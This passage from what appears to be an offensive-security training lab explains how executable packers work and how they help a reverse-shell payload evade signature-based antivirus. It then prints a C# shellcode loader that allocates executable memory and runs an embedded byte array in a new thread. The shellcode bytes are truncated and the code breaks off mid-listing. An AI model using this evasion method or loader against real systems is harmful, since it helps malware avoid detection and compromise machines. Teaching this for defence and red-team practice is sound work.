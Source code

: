 1. The unpacker gets executed first, as it is the executable's entry point.
2. The unpacker reads the packed application's code.
3. The unpacker will write the original unpacked code somewhere in memory and direct the execution flow of the application to it.

### Packers and AVs

By now, we can see how packers help bypass AV solutions. Let's say you built a reverse shell executable, but the AV is catching it as malicious because it matches a known signature. In this case, using a packer will transform the reverse shell executable so that it doesn't match any known signatures while on disk. As a result, you should be able to distribute your payload to any machine's disk without much problem.

AV solutions, however, could still catch your packed application for a couple of reasons:

* While your original code might be transformed into something unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
* At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

### Packing our shellcode

Let's start from a basic C# shellcode. You can also find this code in your Windows machine at `C:\Tools\CS Files\UnEncStagelessPayload.cs`:

```
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```